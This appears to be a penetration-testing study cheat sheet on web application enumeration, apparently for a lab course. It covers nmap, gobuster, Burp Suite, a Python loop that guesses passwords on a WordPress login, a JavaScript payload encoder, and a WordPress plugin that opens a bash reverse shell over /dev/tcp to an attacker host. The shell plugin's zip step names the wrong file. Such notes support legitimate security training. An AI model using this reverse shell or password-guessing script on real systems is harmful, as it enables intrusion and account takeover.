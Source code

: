 # WebApps enum

OWASP top ten: https://owasp.org/www-project-top-ten/

## Nmap

```
sudo nmap -p80 -sV $IP
sudo nmap -p80 --script=http-enum $IP
```

## Wappalyzer

Technology stack: https://www.wappalyzer.com/

## Sitemaps

```
http://ip/robots.txt
http://ip/sitemap.xml
```

## Gobuster 

### Directory brute force

Documentation on Kali: https://www.kali.org/tools/gobuster/
```
gobuster dir -u $IP -w /path/to/wordlist.txt
```
Kali wordlists: `/usr/share/wordlists/dirb/*.txt`

### Enumerating APIs

Make a pattern file `pattern.txt`:
```
{GOBUSTER}/v1
{GOBUSTER}/v1
```
then fuzz the placeholder with a wordlist:
```
gobuster dir -u http://ip:port -w /usr/share/wordlists/dirb/big.txt -p pattern.txt
```
Curl with headers: `curl -i`

Post json data:
```
curl -d '{"username":"someuser","password":"somepass"}' -H 'Content-Type: application/json' http://$IP/path/to/login/page.html
```

## Burp Suite

Proxy > Proxy Settings > Proxy Listeners\
Firefox > Connection Settings > Configure Proxy > Manual > 127.0.0.1\
Proxy > HTTP history > right-click "Send to repeater"\
Repeater > Send\
`cat /etc/hosts # add the website`\
Proxy > HTTP history > right-click "Send to intruder"\
Intruder > Clear/Add > Payload > Paste > paste a wordlist > check the return code

## Python manual password attack

Using the `requests` module: https://requests.readthedocs.io/en/latest/api
```
import requests
for i in ['test', 'pass', 'password']:
    r = requests.post('http://offsecwp/wp-login.php', data={'login_field': 'user_to_hack', 'password_field': i})
    print(r.status_code, len(r.content))
```

## Javascript

Shortcuts:
- console: `^C+^S+k`
- devtools: `^C+^S+i`

```
function myFunc(a,b){
  return a+b
  }
let c = myFunc(n1,n2)

function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

Minified Javascript: https://jscompress.com/

## WordPress reverse shell plugin

https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

Php file:
```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/$AttackerIp/$AttackerPort 0>&1'");
?>
```
then zip it: `zip revsh-wp-plugin.zip revsh-wp-plugin.sh` \
and upload it on WordPress.

